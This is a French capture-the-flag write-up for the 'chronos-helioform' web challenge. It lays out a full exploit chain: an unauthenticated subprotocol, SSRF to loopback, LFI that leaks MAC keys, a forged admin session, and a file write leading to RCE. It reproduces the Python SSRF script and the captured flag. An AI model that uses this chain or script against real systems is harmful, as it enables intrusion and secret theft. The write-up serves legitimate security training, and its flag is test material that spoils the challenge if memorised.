



# Writeup : chronos-helioform

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : HSP subprotocol sans auth -> loopback DIAL SSRF -> ticket/dotenv LFI -> forged admin session -> hsp-repl arbitrary file write -> runbook RCE

Outils observés : Python scripts in /root/ctf/chronos-helioform

Cible : CSCTF 2026 CTFd 9163

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-helioform. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

Solve log 2026-11-07T04:37:13Z: CTFd submission status correct. Flag CSCTF{qJdRGAsiWyjmzG24KvBmzNXv}. hsp.raw.1 accepté sans authentification externe; opcode DIAL permet SSRF vers loopback; services 7710/7711 et dotenv LFI sur /etc/helioform/relay.env divulguent CONSOLE_MAC_KEY et REPLICATION_MAC_KEY; forger hsp_session admin; console trace révèle hsp-repl/1 et recordd 7712/7713; commit blob mode 0x01 écrit un runbook Python dans /var/lib/helioform/runbooks; automation exécute le runbook comme relay user pour lire /flag.

### Pourquoi ça marche

Les services auxiliaires accessibles par DIAL exposent secrets d’environnement et protocole replication privilégié; valider chaque transition jusqu’à la lecture de /flag.

### Pièges

Ne pas confondre hsp.raw.1 transport brut avec une session authentifiée; forger le cookie avec la clé console récupérée.

### Notes locales conservées

# Helioform Relay :  CSCTF 2026 (ID 9163, Web)

Flag and exploitation result below are recorded from the live solve log: CTFd
returned `correct` at 2026-11-07T04:37:13Z. Reproduction scripts for the HSP
transport, DIAL and forged session are in this directory.

## Journal
1. 2026-11-06T13:51:24Z unknown : Instance démarrée sur port 33194; triage HTTP/WebSocket/admin en cours.

## Journal
2. 2026-11-07T03:54:21Z unknown : Instance live: http://w06.ctf.chronos-security.ro:33065 (déjà running). Triage HTTP en cours.

## Journal
3. 2026-11-07T03:59:34Z unknown : hsp.raw.1 accepté sans auth externe (auth=legacy-proxy non vérifié). Opcode 0x10 DIAL = SSRF loopback (ok splice). egress=127.0.0.1.

## Journal
4. 2026-11-07T04:22:36Z unknown : CHAIN: hsp.raw.1(no auth)->DIAL SSRF->loopback svc catalogd:7710(ticket 0x20 via nonce)->provd:7711 dotenv broker export 0x30 ticket+path, root=/etc/helioform, LFI /etc/helioform/relay.env => CONSOLE_MAC_KEY=7f3c9a2e... ISS=helioform-factory AUD=relay-console. Forging hsp_session.

## Journal
5. 2026-11-07T04:23:26Z unknown : Console admin OK. /console/trace révèle hsp-repl/1 (recordd 7712/peer 7713): commit blob mode 0x01 = WRITE fichier. /console/automation: runbooks /var/lib/helioform/runbooks exécutés comme relay user (RCE). REPLICATION_MAC_KEY=c1d4e8f0... Prochain: status recordd + forger commit blob vers runbook.

## Journal
6. 2026-11-07T04:37:13Z unknown : RÉSOLU. Flag CSCTF{qJdRGAsiWyjmzG24KvBmzNXv} soumis=correct. Chaîne complète: hsp.raw.1 no-auth -> DIAL SSRF -> loopback svcs 7710/7711/7712/7713 -> ticket+dotenv LFI /etc/helioform/relay.env (CONSOLE_MAC_KEY, REPLICATION_MAC_KEY) -> forge hsp_session admin -> console -> repl protocol hsp-repl/1 (hello 0x11 + blob 0x17, peer=relay-collector) arbitrary file write absolute path -> runbook python RCE /var/lib/helioform/runbooks -> cat /flag.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-helioform
file notes.md bareHSP.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' bareHSP.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `bareHSP.py` est reproduit ci-dessous sans modification :

```python
import socket, struct, time, base64, os, sys
HOST='w06.ctf.chronos-security.ro'; PORT=33065
def frame(op,flags=0,body=b''):
    return b'HSP1'+struct.pack('<HHI',op,flags,len(body))+body
def outer():
    for _ in range(10):
        try:
            s=socket.create_connection((HOST,PORT),timeout=8)
            key=base64.b64encode(os.urandom(16)).decode()
            s.sendall((f"GET /mesh HTTP/1.1\r\nHost: {HOST}\r\nUpgrade: websocket\r\nConnection: Upgrade\r\nSec-WebSocket-Version: 13\r\nSec-WebSocket-Key: {key}\r\nSec-WebSocket-Protocol: hsp.raw.1\r\n\r\n").encode())
            s.settimeout(5); buf=b''
            while b'\r\n\r\n' not in buf:
                d=s.recv(1)
                if not d: break
                buf+=d
            if b'101' in buf: return s
            s.close()
        except: pass
        time.sleep(0.5)
    return None
def dial(target=b"127.0.0.1:8080"):
    s=outer()
    if not s: return None
    s.sendall(frame(0x10,0,target))
    time.sleep(0.3)
    ack=s.recv(4096)
    sys.stderr.write(f"dial ack {ack[:30]!r}\n")
    if b'ok splice' not in ack: return None
    return s
s=dial()
if not s: print("dial fail"); sys.exit(1)
# send BARE HSP frames (no HTTP) into the spliced 8080 connection
seq=[(0x01,b'agent'),(0x02,b'')]
for op,body in seq:
    s.sendall(frame(op,0,body)); time.sleep(0.4)
s.settimeout(3); out=b''
try:
    while True:
        d=s.recv(8192)
        if not d: break
        out+=d
except: pass
sys.stderr.write(f"RAW {len(out)}: {out[:300]!r}\n")
i=0
while i+12<=len(out):
    if out[i:i+4]!=b'HSP1': sys.stderr.write("non-hsp\n");break
    op,fl,ln=struct.unpack('<HHI',out[i+4:i+12]);b=out[i+12:i+12+ln]
    sys.stderr.write(f"FRAME op=0x{op:x} fl=0x{fl:x} body={b!r}\n"); i+=12+ln
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{qJdRGAsiWyjmzG24KvBmzNXv}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
